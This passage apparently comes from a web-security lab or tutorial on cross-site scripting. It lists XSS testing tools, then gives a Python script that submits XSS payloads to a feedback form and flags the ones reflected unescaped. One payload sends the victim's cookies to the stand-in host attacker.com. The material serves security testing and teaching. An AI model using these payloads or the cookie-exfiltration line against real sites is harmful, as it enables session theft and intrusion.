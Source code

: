 ### 🔧 Advanced XSS Testing Tools
- **🌐 Burp Suite** - Comprehensive XSS testing and payload generation
- **🦊 OWASP ZAP** - Automated XSS vulnerability scanning
- **🔥 XSSer** - Advanced XSS exploitation framework
- **🎯 BeEF** - Browser exploitation framework for XSS
- **📝 XSS Polyglots** - Universal XSS payloads for testing

### 🎯 Automated XSS Testing Script
```python
# Comprehensive XSS testing script
import requests
import urllib.parse

def test_xss_vulnerability(base_url, payloads):
    results = []
    
    for username_length in range(1, 6):  # Test different username lengths
        username = 'a' * username_length
        
        for payload in payloads:
            try:
                response = requests.post(f"{base_url}/feedback", 
                                       data={
                                           'username': username,
                                           'feedback': payload
                                       })
                
                # Check if payload executed (look for unescaped script tags)
                if '<script>' in response.text and 'alert(' in response.text:
                    results.append({
                        'username_length': username_length,
                        'payload': payload,
                        'status': 'VULNERABLE',
                        'response_code': response.status_code
                    })
                else:
                    results.append({
                        'username_length': username_length,
                        'payload': payload,
                        'status': 'FILTERED',
                        'response_code': response.status_code
                    })
            except Exception as e:
                results.append({
                    'username_length': username_length,
                    'payload': payload,
                    'status': 'ERROR',
                    'error': str(e)
                })
    
    return results

# XSS payloads for testing
xss_payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg onload=alert('XSS')>",
    "<iframe src='javascript:alert(\"XSS\")'></iframe>",
    "<body onload=alert('XSS')>",
    "javascript:alert('XSS')",
    "<script>document.location='http://attacker.com/steal?'+document.cookie</script>"
]

```